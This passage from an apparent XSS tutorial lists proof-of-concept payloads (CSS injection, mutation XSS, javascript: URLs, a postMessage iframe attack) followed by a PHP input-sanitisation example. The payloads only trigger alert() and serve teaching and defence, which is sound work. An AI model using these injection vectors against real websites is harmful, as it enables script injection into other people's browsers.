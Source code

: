 ```javascript
```

#### CSS Context
```css
/* CSS injection */
</style><script>alert('XSS')</script>
expression(alert('XSS'))
-moz-binding:url("data:text/xml,<bindings xmlns='http://www.mozilla.org/xbl'><binding><implementation><constructor>alert('XSS')</constructor></implementation></binding></bindings>")

/* CSS with JavaScript */
background-image: url("javascript:alert('XSS')")
```

### 3. 🔄 Advanced DOM Manipulation

#### Mutation XSS
```javascript
// Exploiting DOM mutations
<svg><script>alert('XSS')</script></svg>
<math><script>alert('XSS')</script></math>
<table><script>alert('XSS')</script></table>

// mXSS with innerHTML
<noscript><p title="</noscript><img src=x onerror=alert('XSS')>">
```

#### PostMessage XSS
```javascript
// Vulnerable postMessage handler
window.addEventListener('message', function(e) {
    document.getElementById('content').innerHTML = e.data;
});

// Attack from iframe
<iframe src="javascript:parent.postMessage('<img src=x onerror=alert(document.domain)>','*')">
```

## 🛡️ Prevention & Mitigation

### 1. 🔒 Input Validation and Sanitization

#### Server-Side Input Validation
```php
// PHP input sanitization
function sanitizeInput($input) {
    // Remove HTML tags
    $input = strip_tags($input);
    
    // Encode HTML entities
    $input = htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
    
    // Additional filtering
    $input = preg_replace('/[<>"\']/', '', $input);
    
    return $input;
}

// Usage
$userInput = sanitizeInput($_POST['comment']);
```
